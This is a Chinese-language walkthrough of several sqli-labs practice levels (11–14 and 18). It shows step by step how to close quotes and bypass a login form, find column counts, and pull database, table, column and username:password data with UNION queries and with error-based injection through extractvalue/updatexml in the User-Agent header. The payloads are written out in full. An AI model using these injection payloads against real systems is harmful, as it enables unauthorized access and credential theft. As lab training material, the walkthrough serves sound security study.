 7、Less-11
POST表单提交，使用单引号闭合，和关卡12类似，在关卡12进行详细说明

8、Less-12
(1)为POST表单提交，在username中输入 `' or 1=1 #`登陆失败，说明单引号'不作为闭合，则尝试使用双引号做闭合，依旧报错，再次尝试加上括号闭合。使用`") or 1=1 #`，")闭合成功，同时注入 or 1=1这个一定为真的条件，#注释后面的内容
![less-12.1][22]
(2)在username文本框输入：`") or 1=1 order by num #`，将num从2开始逐一增加，当num为3时报错，说明列数为2
![less-12.2][23]
(3)在username文本框中输入：`1") and 1=2 union select 1,2#`，有两个显示位，爆破数据库信息可以利用这两个显示位
![less-12.3][24]
(4)爆数据库信息和利用URL栏的GET方法是类似的，步骤同理关卡1。
   爆库：`1") and 1=2 union select 1,database()#`
   爆表：`1") and 1=2 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #`
   爆列名：`1") and 1=2 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' #`
   爆记录：`1") and 1=2 union select 1,2,group_concat(username,":",password) from users #`

9、Less-13
类似关卡12，不同点在于使用`')`闭合

10、Less-14
类似关卡12，不同点在于使用`"`闭合

11、Less-18
(1)为 POST 表单提交，在 username 中输入`'or 1=1 #`和`" or 1=1 #`等都显示登录失败，查看php文件，发现uname和passwd都做了check_input特殊处理
![less-18.1][25]
(2)check_input函数中，magic_quotes_gpc判断解析用户提示的数据，在magic_quotes_gpc = On的情况下，如果输入的数据有单引号（'）、双引号（"）、反斜线（\\）与 NULL等字符都会被加上反斜线。stripslashes()删除由 addslashes() 函数添加的反斜杠、ctype_digit()判断是不是数字，mysql_real_escape_string()转义 SQL 语句中使用的字符串中的特殊字符，intval() 进行整型转换。这说明username和password都不能作为注入点。
![less-18.2][26] 
(3)用户名和密码输入admin，页面有user-agent的回显，猜测注入点在user-agent，使用单引号闭合。
![less-18.3][27]
(4)爆库名：使用burpsuit抓包，将User-Agent改为SQL注入语句: `'and extractvalue(1,concat(0x23,(select database()),0x23)) and '`，通过报错注入将数据名回显
![less-18.4][28]
(5)爆表名：可以选择使用updatexml报错回显，payload为`1',1,updatexml(1,concat(0x23,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x23),1)) #`，也可以使用extractvalue报错回显，payload为`'and extractvalue(1,concat(0x23,( select group_concat(table_name) from information_schema.tables where table_schema=database()),0x23)) and '`
![less-18.5][29]
![less-18.6][30]
(6)爆列名：使用updatexml函数报错注入，payload为 `',updatexml(1,concat(0x23,(select group_concat(column_name) from information_schema.columns where table_name='uagents'),0x23),1)) #`
![less-18.7][31]
(7)爆记录：使用updatexml报错注入，payload为：`',updatexml(1,concat(0x23,(select group_concat(username,":",password) from users),0x23),1)) #`，有长度限制所以只显示了部分，则也可以username和password分别使用`',updatexml(1,concat(0x23,(select username/password from users limit num,1),0x23),1)) #` （num从0开始逐一递增）将数据一个一个回显
![less-18.8][32]
![less-18.9][33]


  [1]: https://blog.csdn.net/qq_39670065/article/details/106762824?utm_medium=distribute.pc_relevant_t0.none-task-blog-OPENSEARCH-1.control&depth_1-utm_source=distribute.pc_relevant_t0.none-task-blog-OPENSEARCH-1.control
  [2]: https://github.com/Audi-1/sqli-labs
  [3]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.1.png
  [4]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.2.png
  [5]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.3.png
  [6]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.4.png
  [7]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.5.png
  [8]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.6.png
  [9]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.7.png
  [10]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.8.png
  [11]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.9.png
  [12]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.10.png
  [13]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.11.png
  [14]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.1.png
  [15]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.2.png
  [16]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.3.png
  [17]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.4.png
  [18]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.5.png
  [19]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.6.png
  [20]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.7.png
  [21]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.8.png
  [22]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-12.1.png
  [23]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-12.2.png
  [24]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-12.3.png
  [25]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.1.png
  [26]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.2.png
  [27]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.3.png
  [28]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.4.png
  [29]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.5.png
  [30]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.6.png
  [31]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.7.png
  [32]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.8.png
  [33]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.9.png
  [34]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.1.png
  [35]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.2.png
  [36]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.3.png
  [37]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.4.png
  [38]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.5.png
  [39]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.6.png
  [40]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.7.png
  [41]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.8.png
  [42]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.9.png
  [43]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.1.png
  [44]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.2.png
  [45]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.3.png
  [46]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.4.png
  [47]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.5.png
  [48]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.6.png
  [49]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.7.png